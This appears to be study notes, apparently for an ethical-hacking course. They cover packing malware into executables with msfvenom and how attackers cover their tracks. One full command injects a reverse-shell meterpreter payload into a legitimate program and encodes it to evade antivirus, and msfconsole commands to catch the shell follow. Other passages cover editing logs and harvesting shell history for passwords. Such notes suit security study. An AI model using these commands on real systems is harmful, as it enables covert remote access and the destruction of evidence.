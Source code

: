 ### Packing Malware

- Embedding malware in other files (e.g. PDF, JPEG) to make it hidden
- Executable files to embed are good as they'll execute your malware when they're executed.
- You can do it
  - manually (hard to do, hard do detect)
  - or in a standardized way (automated, but detected easily)
- E.g. many crack files come with embedded malware.

#### `msfvenom`

- 📝 Payload generator and packer in [Metasploit framework](./../05-vulnerabilities/automated-penetration-testing-tools.md#metasploit).
- [Usage](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom) e.g. `msfvenom -a x86 --platform-windows -x /root/Downloads/someProgram.exe -k -p windows/meterpreter/reverse_tcp LHOST=192.168.122.110 LPORT=4444 -e x86/shikata_ga_nai -i 3 -f exe -o program.exe`
  - `-x`: Executable that'll be patched (injected)
  - `-k`: Keep functionality in the program
  - `-p`: Payload to inject
    - In the example it's reverse shell that gives remote access.
    - Server becomes client (creates connection), client becomes server.
    - Victim communicates back to the attacking machine
  - `-e x86/shikata_ga_nai`: Encoder to avoid antivirus detection
  - `-i 3`: Encode 3 times for more stealth
  - Once it's executed you can start listening to the infected computer using:
    - [`msfconsole`](./../05-vulnerabilities/automated-penetration-testing-tools.md#msfconsole) to start listening to the IP address:
      - `use exploit/multi/handler`
      - `set payload windows/shell/reverse_tcp`
      - `set LHOST <target-ip-address>`
      - `set LPORT 4444`
      - `exploit`
- See also [MSFvenom | Automated penetration testing tools](./../05-vulnerabilities/automated-penetration-testing-tools.md#msfvenom)
# Covering tracks

- Attempt to hide attackers presence on the system so the system appears uncompromised.
- To avoid detection the attacker needs to
  - modify the system logs and delete their activity during the attack.
  - ensure that future activities are not logged
- You can mitigate damage by reducing footprint by e.g. making your access disguise a legit process.
- 💡 Have an exit strategy prior to breaking in by getting to know OS type, log types, policies (e.g. log altered alarms) and applications running on it.
  - E.g. if you know OS you can know where in general the OS keeps logs (e.g. `/var/log/`)
  - ❗ There's no universal way to figure out where all the logs are in a system
- Log file permissions
  - Common and big mistake: bad permissions on log files
    - Allows access from a lot of users that shouldn't
  - E.g. to read system messages you need to become root `sudo tail /var/log/messages`
- Terminal history
  - Might leave footprints here for commands you run.
  - Good place to learn about the user (they sometimes write passwords by mistake).
  - You can run `history` to get the history.
    - In (fedora) saved in `home/<username>/.bash_history`
